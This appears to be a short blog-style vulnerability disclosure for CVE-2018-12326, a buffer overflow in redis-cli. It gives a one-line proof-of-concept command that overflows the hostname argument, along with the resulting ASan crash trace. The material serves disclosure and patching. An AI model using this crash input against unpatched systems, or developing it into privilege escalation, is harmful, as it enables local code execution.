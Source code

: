```yaml
---
layout: post
title: "[CVE-2018-12326] Redis-cli Buffer Overflow"
date: 2018-06-13
categories:
    - blog
tags:
    - buffer overflow
    - stack overflow
keywords: "redis, redis-cli, buffer overflow"
---
```


Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter.

```
$ ./src/redis-cli -h `python -c 'print "A" * 300'`
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known

#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)
```
---
References:
1. https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES
2. https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES
